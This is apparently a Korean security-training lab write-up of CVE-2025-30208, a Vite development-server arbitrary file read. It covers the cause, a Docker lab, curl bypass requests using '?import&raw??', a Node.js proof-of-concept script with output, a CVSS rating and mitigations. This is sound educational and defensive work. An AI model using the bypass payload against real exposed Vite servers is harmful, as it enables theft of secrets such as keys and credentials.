



# CVE-2025-30208: Vite 개발 서버 임의 파일 읽기 취약점

> 화이트햇 스쿨 4기 10반 박서연  
> GitHub: [@syeoneo](https://github.com/syeoneo)

## 1. 취약점 요약

CVE-2025-30208은 Vite 개발 서버의 파일 접근 제한 기능인
`server.fs.deny` 및 `server.fs.allow` 검사를 우회하여 프로젝트 외부의
파일 내용을 읽을 수 있는 취약점이다.

Vite 개발 서버에서는 `/@fs/` 경로를 이용하여 파일 시스템에 있는 파일을
제공할 수 있다. 정상적인 경우 Vite가 허용한 프로젝트 경로 밖의 파일은
`403 Restricted` 응답으로 차단된다.

그러나 파일 경로 뒤에 `?raw??` 또는 `?import&raw??`와 같은 특수한
쿼리 문자열을 붙이면 접근 제한 검사가 정상적으로 적용되지 않아,
공격자가 파일의 정확한 경로를 알고 있는 경우 해당 파일의 내용을 읽을 수 있다.

이 취약점은 단순 설정 오류가 아니라 Vite의 URL 및 쿼리 문자열 처리 과정에서
발생하는 공식 CVE 취약점이다.

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2025-30208 |
| 대상 프로그램 | Vite |
| 실습 버전 | Vite 6.2.2 |
| 취약점 유형 | 임의 파일 읽기 / 접근 제어 우회 |
| CWE | CWE-200, CWE-284 |
| 실습 Risk Score | 7.5 / 10.0 |
| 영향 | 기밀성 침해 |
| 인증 필요 여부 | 필요 없음 |
| 공격 위치 | 네트워크 |
| 수정 버전 | Vite 6.2.3 이상 |

---

## 2. 영향받는 버전

공식 GitHub Security Advisory에서 안내한 영향받는 버전은 다음과 같다.

- Vite 6.2.0 이상 6.2.2 이하
- Vite 6.1.0 이상 6.1.1 이하
- Vite 6.0.0 이상 6.0.11 이하
- Vite 5.0.0 이상 5.4.14 이하
- Vite 4.5.9 이하

본 실습에서는 취약 버전인 **Vite 6.2.2**를 사용하였다.

수정 버전은 다음과 같다.

- Vite 6.2.3 이상
- Vite 6.1.2 이상
- Vite 6.0.12 이상
- Vite 5.4.15 이상
- Vite 4.5.10 이상

---

## 3. 취약점 발생 원리

Vite 개발 서버는 `/@fs/` 경로를 통해 파일 시스템의 파일을 요청할 수 있다.

예를 들어 다음 요청은 컨테이너 내부의 `/tmp/secret.txt` 파일에 접근하려는
요청이다.

```text
/@fs/tmp/secret.txt
```

해당 파일은 프로젝트 경로인 `/app` 외부에 있으므로 정상적인 Vite 동작에서는
접근이 차단된다.

```text
HTTP 403 Restricted
```

그러나 다음과 같이 특수한 쿼리 문자열을 추가하면 접근 제한을 우회할 수 있다.

```text
/@fs/tmp/secret.txt?import&raw??
```

Vite 내부에서는 URL 처리 과정의 여러 단계에서 마지막 구분자인 `?`를 제거하지만,
쿼리 문자열을 판별하는 정규표현식에서는 이러한 형태가 정상적으로 고려되지 않았다.

그 결과 접근 제한 검사에는 정상 경로처럼 전달되면서, 실제 파일 처리 과정에서는
`raw` 요청으로 인식되어 프로젝트 외부 파일 내용이 응답으로 반환된다.

---

## 4. 취약 조건

다음 조건을 모두 만족할 때 취약점이 발생할 수 있다.

1. 취약한 Vite 버전을 사용해야 한다.
2. Vite 개발 서버가 `--host` 또는 `server.host` 설정으로 네트워크에 노출되어야 한다.
3. 공격자가 읽으려는 파일의 경로를 알고 있거나 추측할 수 있어야 한다.
4. Vite 서버를 실행하는 계정에 대상 파일의 읽기 권한이 있어야 한다.

본 실습에서는 Docker 컨테이너 안에서 다음 조건을 구성하였다.

- Vite 버전: `6.2.2`
- Vite 실행 주소: `0.0.0.0:5173`
- 프로젝트 경로: `/app`
- 프로젝트 외부의 검증 파일: `/tmp/secret.txt`
- 검증 문자열: `WHS_CVE_2025_30208_SECRET`

호스트에서는 실습 서버가 외부 네트워크에 불필요하게 노출되지 않도록
`127.0.0.1:5173`에만 포트를 연결하였다.

---

## 5. 환경 구성

### 5.1 요구사항

- Docker
- Docker Compose v2
- Git

Node.js와 Vite를 호스트 운영체제에 별도로 설치할 필요는 없다.

### 5.2 디렉터리 구조

```text
Vite/
└── CVE-2025-30208/
    ├── Dockerfile
    ├── docker-compose.yml
    ├── package.json
    ├── package-lock.json
    ├── index.html
    ├── poc.mjs
    ├── README.md
    └── images/
        ├── 1-docker-build.png
        ├── 2-container-healthy.png
        └── 3-poc-success.png
```

### 5.3 재현성을 위한 구성

본 환경은 제3자가 만든 취약 애플리케이션 이미지를 그대로 사용하지 않는다.

공식 Node.js 베이스 이미지를 바탕으로 Dockerfile에서 직접 프로젝트를 만들고,
`package.json`과 `package-lock.json`을 이용하여 Vite 6.2.2를 설치한다.

- Node.js 이미지 버전 고정: `node:20.19.0-bookworm-slim`
- Vite 버전 고정: `6.2.2`
- `package-lock.json` 포함
- Dockerfile을 통한 검증 파일 자동 생성
- Health Check를 통한 서버 실행 상태 확인
- 호스트의 `127.0.0.1`에만 포트 공개

---

## 6. 환경 구성 파일

### 6.1 package.json

```json
{
  "name": "cve-2025-30208-vite-lab",
  "version": "1.0.0",
  "private": true,
  "description": "Docker lab for CVE-2025-30208",
  "scripts": {
    "dev": "vite"
  },
  "devDependencies": {
    "vite": "6.2.2"
  }
}
```

### 6.2 Dockerfile

```dockerfile
FROM node:20.19.0-bookworm-slim

WORKDIR /app

COPY package.json package-lock.json ./

RUN npm ci --no-audit --no-fund

COPY index.html poc.mjs ./

# 프로젝트 경로(/app) 밖에 취약점 검증용 파일 생성
RUN printf 'WHS_CVE_2025_30208_SECRET\n' > /tmp/secret.txt \
    && chown -R node:node /app /tmp/secret.txt

USER node

EXPOSE 5173

CMD ["npm", "run", "dev", "--", "--host", "0.0.0.0", "--port", "5173"]
```

Docker 이미지 생성 과정에서 프로젝트 디렉터리인 `/app` 외부에
`/tmp/secret.txt`를 만든다.

이 파일은 실습 전용 검증 파일이므로 실제 호스트 운영체제의 민감한 파일을
대상으로 하지 않는다.

### 6.3 docker-compose.yml

```yaml
services:
  vite:
    build:
      context: .
      dockerfile: Dockerfile
    ports:
      - "127.0.0.1:5173:5173"
    healthcheck:
      test:
        [
          "CMD",
          "node",
          "-e",
          "fetch('http://127.0.0.1:5173').then(r => process.exit(r.ok ? 0 : 1)).catch(() => process.exit(1))"
        ]
      interval: 2s
      timeout: 2s
      retries: 30
    restart: unless-stopped
```

---

## 7. 환경 실행

다음 명령은 모두 `Vite/CVE-2025-30208` 디렉터리에서 실행한다.

```bash
docker compose up -d --build
```

Docker Compose는 다음 작업을 자동으로 수행한다.

1. Node.js 베이스 이미지 준비
2. Vite 6.2.2 설치
3. 검증용 파일 `/tmp/secret.txt` 생성
4. Vite 개발 서버 실행
5. 호스트의 `127.0.0.1:5173` 포트 연결
6. Health Check 수행

환경을 별도로 수정하거나 컨테이너 내부에서 수동으로 설정할 필요가 없다.

### Docker 이미지 빌드 및 컨테이너 실행 결과



컨테이너 상태를 확인한다.

```bash
docker compose ps
```

`STATUS` 열에 `healthy`가 표시되면 Vite 서버가 정상적으로 실행된 것이다.



---

## 8. 수동 재현 절차

### 8.1 정상 요청

프로젝트 외부에 있는 검증 파일을 특수 쿼리 없이 요청한다.

```bash
curl -i "http://127.0.0.1:5173/@fs/tmp/secret.txt"
```

Windows PowerShell에서는 다음 명령을 사용할 수 있다.

```powershell
curl.exe -i "http://127.0.0.1:5173/@fs/tmp/secret.txt"
```

정상적인 접근 제한이 적용되면 다음 상태 코드가 반환된다.

```text
HTTP/1.1 403 Forbidden
```

Vite는 `/tmp/secret.txt`가 허용된 프로젝트 경로 밖에 있다는 이유로 요청을
차단한다.

### 8.2 취약점 우회 요청

파일 경로 뒤에 `?import&raw??`를 추가한다.

```bash
curl -i "http://127.0.0.1:5173/@fs/tmp/secret.txt?import&raw??"
```

Windows PowerShell에서는 다음 명령을 사용할 수 있다.

```powershell
curl.exe -i "http://127.0.0.1:5173/@fs/tmp/secret.txt?import&raw??"
```

취약점이 존재하면 다음과 같이 상태 코드 `200`과 함께 검증 파일의 내용이
반환된다.

```text
HTTP/1.1 200 OK

export default "WHS_CVE_2025_30208_SECRET\n"
```

---

## 9. 자동 PoC 코드

`poc.mjs`는 정상 요청과 취약점 우회 요청을 순서대로 전송한 뒤 결과를 자동으로
판별한다.

```javascript
const baseUrl = process.argv[2] ?? "http://127.0.0.1:5173";
const marker = "WHS_CVE_2025_30208_SECRET";

async function request(path) {
  const response = await fetch(`${baseUrl}${path}`);
  const body = await response.text();

  return {
    status: response.status,
    body
  };
}

async function main() {
  console.log("[1] 정상 요청 확인");

  const normal = await request("/@fs/tmp/secret.txt");

  console.log(`HTTP Status: ${normal.status}`);

  if (normal.body.includes(marker)) {
    throw new Error("정상 요청에서 외부 파일이 노출되었습니다.");
  }

  console.log("Result: 외부 파일 접근이 정상적으로 차단되었습니다.");

  console.log("\n[2] CVE-2025-30208 PoC 요청");

  const exploit = await request(
    "/@fs/tmp/secret.txt?import&raw??"
  );

  console.log(`HTTP Status: ${exploit.status}`);
  console.log(`Secret marker found: ${exploit.body.includes(marker)}`);

  if (exploit.body.includes(marker)) {
    console.log(`Leaked content: ${marker}`);
  }

  if (exploit.status !== 200) {
    throw new Error(
      `예상한 상태 코드 200이 아닌 ${exploit.status}가 반환되었습니다.`
    );
  }

  if (!exploit.body.includes(marker)) {
    throw new Error("응답에서 검증용 문자열을 찾지 못했습니다.");
  }

  console.log("\n[PASS] CVE-2025-30208 재현에 성공했습니다.");
}

main().catch((error) => {
  console.error(`\n[FAIL] ${error.message}`);
  process.exit(1);
});
```

### PoC 실행 명령

```bash
docker compose exec vite node /app/poc.mjs http://127.0.0.1:5173
```

PoC는 다음 조건을 모두 만족해야 성공으로 판정한다.

1. 정상 요청에서 검증 문자열이 노출되지 않을 것
2. 우회 요청에서 HTTP 상태 코드 200이 반환될 것
3. 우회 요청 응답에 `WHS_CVE_2025_30208_SECRET`이 포함될 것

---

## 10. 실행 결과

실행 결과 정상 요청은 `403`으로 차단되었다.

```text
[1] 정상 요청 확인
HTTP Status: 403
Result: 외부 파일 접근이 정상적으로 차단되었습니다.
```

동일한 파일에 `?import&raw??` 쿼리를 추가하자 상태 코드 `200`과 함께
파일 내용이 반환되었다.

```text
[2] CVE-2025-30208 PoC 요청
HTTP Status: 200
Secret marker found: true
Leaked content: WHS_CVE_2025_30208_SECRET

[PASS] CVE-2025-30208 재현에 성공했습니다.
```



이를 통해 정상적으로는 접근이 제한되는 프로젝트 외부 파일을 특수한 쿼리
문자열을 사용하여 읽을 수 있음을 확인하였다.

---

## 11. Risk Score 분석

### 실습 기준 Risk Score: 7.5 / 10.0

본 실습 결과를 기준으로 다음과 같이 평가하였다.

| 평가 항목 | 값 | 근거 |
| --- | --- | --- |
| Attack Vector | Network | HTTP 요청을 통해 원격에서 공격 가능 |
| Attack Complexity | Low | 특수 쿼리 문자열을 추가하는 단순 요청으로 재현 가능 |
| Privileges Required | None | 별도의 계정이나 인증 불필요 |
| User Interaction | None | 피해 사용자의 추가 동작 불필요 |
| Scope | Unchanged | Vite 서버 권한 범위 안의 파일을 읽음 |
| Confidentiality | High | 서버가 읽을 수 있는 민감 파일 노출 가능 |
| Integrity | None | 파일 수정 기능은 확인되지 않음 |
| Availability | None | 서비스 중단 기능은 확인되지 않음 |

실습 기준 CVSS v3.1 벡터는 다음과 같다.

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

이에 따른 점수는 `7.5`이며 위험도는 `High`이다.

공식 평가 기관에 따라 점수에는 차이가 있다.

- GitHub CNA: 5.3 Medium
- NVD: 7.5 High

GitHub CNA는 공격 복잡도를 높고 사용자 상호작용이 필요한 것으로 평가하였다.
반면 NVD는 인증과 사용자 상호작용 없이 직접 HTTP 요청으로 공격할 수 있다고
판단하여 7.5로 평가하였다.

본 Docker 환경에서는 단일 HTTP 요청으로 인증이나 사용자 상호작용 없이 파일을
읽을 수 있었으므로 NVD의 평가와 동일한 7.5를 실습 Risk Score로 사용하였다.

---

## 12. 영향

공격이 성공할 경우 Vite 개발 서버 프로세스가 읽을 수 있는 파일의 내용이
외부로 노출될 수 있다.

노출 가능한 정보의 예시는 다음과 같다.

- 환경 변수 파일
- API 키 및 액세스 토큰
- 애플리케이션 설정 파일
- 데이터베이스 접속 정보
- 소스 코드
- 인증서 및 비밀 키
- 운영체제와 사용자 관련 파일

이 취약점은 파일 내용을 읽는 기밀성 침해 취약점이다.

본 실습에서는 안전한 재현을 위해 Docker 이미지 생성 시 만든
`/tmp/secret.txt`만 대상으로 사용하였다.

---

## 13. 대응 방안

### 13.1 Vite 보안 업데이트

가장 우선적인 대응은 Vite를 수정 버전 이상으로 업데이트하는 것이다.

Vite 6.2 계열을 사용하는 경우 다음과 같이 6.2.3 이상으로 업데이트한다.

```bash
npm install --save-dev vite@^6.2.3
```

업데이트 후 실제 설치 버전을 확인한다.

```bash
npm list vite
```

### 13.2 개발 서버 외부 노출 금지

Vite 개발 서버는 개발 목적으로 사용해야 하며 인터넷에 직접 공개해서는 안 된다.

가능하면 다음과 같이 로컬 인터페이스에만 바인딩한다.

```bash
npm run dev -- --host 127.0.0.1
```

`--host 0.0.0.0` 또는 외부 접속이 가능한 `server.host` 설정은 필요한 경우에만
제한적으로 사용한다.

### 13.3 네트워크 접근 통제

개발 서버에 외부 접속이 필요한 경우 다음과 같은 접근 통제를 적용한다.

- 방화벽을 이용한 허용 IP 제한
- VPN 내부에서만 접근 허용
- 리버스 프록시 인증 적용
- 개발 네트워크와 운영 네트워크 분리
- 클라우드 보안 그룹의 인바운드 규칙 제한

### 13.4 민감정보 분리

Vite 개발 서버 프로세스가 민감한 파일을 읽지 못하도록 권한을 최소화한다.

- 최소 권한의 사용자 계정으로 실행
- 비밀정보를 프로젝트 디렉터리에 저장하지 않기
- 환경 변수와 비밀정보 관리 시스템 사용
- 운영용 자격증명을 개발 환경에 저장하지 않기

### 13.5 운영 환경에서 개발 서버 사용 금지

운영 환경에서는 Vite 개발 서버를 사용하지 않고, `vite build`를 통해 생성한
정적 결과물을 Nginx 등의 운영용 웹 서버로 제공해야 한다.

---

## 14. 깨끗한 환경에서 재검증

기존 컨테이너, 네트워크 및 볼륨을 제거한다.

```bash
docker compose down --volumes --remove-orphans
```

Docker 빌드 캐시를 사용하지 않고 이미지를 다시 생성한다.

```bash
docker compose build --no-cache
```

컨테이너를 다시 실행한다.

```bash
docker compose up -d
```

상태를 확인한다.

```bash
docker compose ps
```

PoC를 다시 실행한다.

```bash
docker compose exec vite node /app/poc.mjs http://127.0.0.1:5173
```

캐시를 사용하지 않은 재빌드 환경에서도 다음 결과가 출력되면 재현이 완료된
것이다.

```text
[PASS] CVE-2025-30208 재현에 성공했습니다.
```

---

## 15. 환경 종료

실습이 끝난 후 다음 명령으로 컨테이너와 네트워크를 제거한다.

```bash
docker compose down --volumes --remove-orphans
```

---

## 16. 참고 자료

- GitHub Security Advisory, GHSA-x574-m823-4x7w  
  https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w

- NIST National Vulnerability Database, CVE-2025-30208  
  https://nvd.nist.gov/vuln/detail/CVE-2025-30208

- Vite 공식 문서, Server Options  
  https://vite.dev/config/server-options

- CVE Record, CVE-2025-30208  
  https://www.cve.org/CVERecord?id=CVE-2025-30208